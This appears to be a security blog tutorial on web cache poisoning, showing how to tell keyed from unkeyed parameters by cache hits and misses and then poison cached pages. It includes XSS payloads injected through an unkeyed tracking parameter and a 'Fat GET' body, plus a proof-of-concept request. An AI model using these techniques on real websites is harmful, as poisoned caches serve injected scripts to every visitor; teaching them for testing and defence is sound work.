 ```yaml
---
title: "Introduction to Cache Poisoning Attacks"
date: 2025-02-19
draft: false
description: "Introduction into Cache Poisoning Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">
<meta name="image" property="og:image" content="/posts/Intro to Cache Poisoning/feature.png">

## <i class="fa-solid fa-worm text-primary-400"></i> Terminology

### Keyed Parameters
<span class="text-primary-400">Keyed parameters</span> are parameters that the cache system considers when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will result in different cached entries</span>.

For example, if the URL has parameters such as `?user=123` and the cache is <span class="text-primary-400 font-bold">keyed</span> on this parameter, the cache will <span class="text-primary-400">store and serve different content</span>  (<span class="text-primary-400 font-bold">cache miss</span>) for `?user=123` and `?user=456`.

### Unkeyed Parameters
<span class="text-primary-400">Unkeyed parameters</span> are parameters that the cache system ignores when storing and retrieving cached content. This means that <span class="text-primary-400">variations in these parameters will not result in different cached entries</span>. The cache will store only one version of the content (<span class="text-primary-400 font-bold">cache hit</span>), regardless of the variations in these parameters.

## <i class="fa-solid fa-magnifying-glass text-primary-400"></i> Identifying Unkeyed Parameters
The first step is to <span class="text-primary-400">identify unkeyed parameters</span>, since keyed parameters need to be the same when the victim accesses the resource.

### Example
Assume we open `example.com` on `/page` with the following parameters:

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

Since `example.com` uses caching and we are visiting the page for the first time, we will see a cache `MISS`:

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Now we <span class="text-primary-400">alter each parameter and check weather we get a cache miss or hit</span>. A cache `MISS` indicates us that this parameter is <span class="text-primary-400">keyed</span>, since the server loaded a new version of the website.

```HTTP
GET /page?user=guest&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

Now that we identified the <span class="text-primary-400">user parameter to be keyed</span>, let’s continue and check the tracking parameter. Before we change the tracking parameter, lets resent our initial request where we got a cache `MISS`, to verify that the sytem now cached it.

```HTTP
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Great. Now, let's alter the value of the tracking parameter to see whether we get a cache `MISS`, indicating a keyed parameter, or a `HIT` again, indicating an unkeyed parameter.

```HTTP
GET /page?user=admin&tracking=some-other-value HTTP/1.1
Host: example.com
```

{{< highlight HTTP "linenos=false,hl_lines=4 12" >}}
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 456
X-Cache: HIT

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

We can observe the tracking parameter must be a <span class="text-primary-400">unkeyed value</span>, since the cache always returns HIT, even though the value of the parameter was changed.

> The same thing also sometimes applies to header values in the HTTP requests.

## <i class="fa-solid fa-bullseye text-primary-400"></i> Exploitation
One of the <span class="text-primary-400">most common ways to exploit cache poisoning is through XSS</span>, though there are other attacks like DoS and unkeyed cookies. To exploit a XSS you have to <span class="text-primary-400">find an injection point using an unkeyed parameter</span>. The XSS will then be severed to all other users loading that cached version.

### Example
Imagine we have an injection via the tracking parameter into a meta tag like this:

```HTTP
GET /page?user=admin&tracking=https://mytrack.com HTTP/1.1
```

```HTML
...
<meta http-equiv="refresh" content="https://mytrack.com" />
...
```

As before, when sending the initial request to the server, we will receive a cache MISS. So let us inject a simple XSS payload via the unkeyed tracking parameter `"><img/src/onerror=print()>`.

{{< highlight HTML "linenos=false,hl_lines=3 8" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
    <meta http-equiv="refresh" content="https://"><img/src/onerror=print()> />
  </head>

  <body>
    <p>Welcome, admin!</p>
  </body>
</html>
{{< /highlight >}}

Since <span class="text-primary-400">tracking is an unkeyed parameter</span>, anybody who visits the page `/page?user=admin` will be a victim of the XSS attack.


## <i class="fa-solid fa-user-ninja text-primary-400"></i> Advanced Techniques
There are multiple advanced things we can try to get and escalate a cache poisoning attack. However for now let us focus one just one of those, a <span class="text-primary-400">"Fat GET"</span>.

### Fat GET
A "Fat GET" request, is when <span class="text-primary-400">we use GET parameters in the post body, while still using the GET verb</span>. If a server is misconfigured it might parse the parameters from the body. With this you can try to create a discrepancy between the webserver and the cache. <span class="text-primary-400">With this we can also use keyed parameters, since they are no longer directly present in the URL</span>. We can then go back and perform an XSS attack the same way we did before.

{{< highlight HTTP "linenos=false,hl_lines=4" >}}
GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=guest
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, guest!</p>
  </body>
</html>
{{< /highlight >}}

{{< highlight HTTP "linenos=false,hl_lines=4" >}}

GET /page?user=admin&tracking=abc HTTP/1.1
Host: example.com

user=</p><img/src/onerror=print()><p>
{{< /highlight >}}

{{< highlight HTML "linenos=false,hl_lines=11" >}}
Content-Type: text/html
Content-Length: 456
X-Cache: MISS

<html>
  <head>
    <title>Welcome</title>
  </head>

  <body>
    <p>Welcome, </p><img/src/onerror=print()><p>!</p>
  </body>
</html>
{{< /highlight >}}

Again, if a victim now opens `example.com/page?user=admin` the XSS will be loaded from the cache.

## <i class="fa-solid fa-book text-primary-400"></i> A Real Life PoC
```HTTP
GET /?cb=100&"><image/src/onerror=print()> HTTP/2
Host: target-website.com
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36

HTTP/2 200 OK
CACHE: HIT
```

```HTML
...
<meta property="og:url" content="https://target-website.com/?cb=100&"><image/src/onerror=print()>">
...
```

In this example, an image tag with an `onerror` event is injected into the URL parameter. When the server processes this request, the parameter is reflected in the HTML response and cached. Consequently, subsequent users requesting the cached page will execute the malicious JavaScript.